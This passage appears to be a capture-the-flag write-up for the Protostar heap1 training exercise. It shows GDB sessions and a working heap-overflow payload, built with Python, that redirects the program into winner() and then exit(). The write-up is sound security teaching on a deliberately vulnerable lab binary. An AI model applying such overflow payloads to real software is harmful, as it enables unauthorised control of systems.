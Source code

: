 ```shell
(gdb) print &winner
$1 = (void (*)(void)) 0x8048494 <winner>
```

Now, how we do know where the return address is stored on the stack? By setting
a breakpoint on the `ret` instruction in `main()`, we can see that the address
when running in GDB is `0xbffff77c`.

```shell
(gdb) break *0x08048567
Breakpoint 1 at 0x8048567: file heap1/heap1.c, line 35.
(gdb) run AAAA BBBB
Starting program: /opt/protostar/bin/heap1 AAAA BBBB
and that's a wrap folks!

Breakpoint 1, 0x08048567 in main (argc=134513849, argv=0x3) at heap1/heap1.c:35
35      heap1/heap1.c: No such file or directory.
        in heap1/heap1.c
(gdb) print $esp
$1 = (void *) 0xbffff77c
```

However, we cannot use this exact memory address as the layout of the stack
does change outside of a debugger. Since the stack is not touched after the
second `strcpy` until `main()` returns, what we _can_ do is start from an
address near `0xbffff77c` and write `\x94\x84\x04\x08` repeatedly. This will
eventually overwrite the return address of `main()`.

After some trial and error, this is what we end up with.

```shell
user@protostar:~$ /opt/protostar/bin/heap1 `python -c "print 'A' * 20 + '\x40\xf7\xff\xbf'"` `python -c "print '\x94\x84\x04\x08' * 8"`
and that's a wrap folks!
and we have a winner @ 1527638212
Segmentation fault
```

We have successfully redirected control flow to the `winner()` function.
However, the program still has a segmentation fault since the `winner()`
function attempts to returns to `\x00\x00\x00\x00` due to `strcpy` writing a
terminating `NULL` byte.

What we can do is write another 4 bytes with the memory address of `exit()`,
which should make the program exit cleanly.

```shell
(gdb) print &exit
$1 = (<text variable, no debug info> *) 0xb7ec60c0 <*__GI_exit>
```

Putting it all together, we end up with the following.

```shell
user@protostar:~$ /opt/protostar/bin/heap1 `python -c "print 'A' * 20 + '\x40\xf7\xff\xbf'"` `python -c "print '\x94\x84\x04\x08' * 8 + '\xc0\x60\xec\xb7'"`
and that's a wrap folks!
and we have a winner @ 1527638455
```
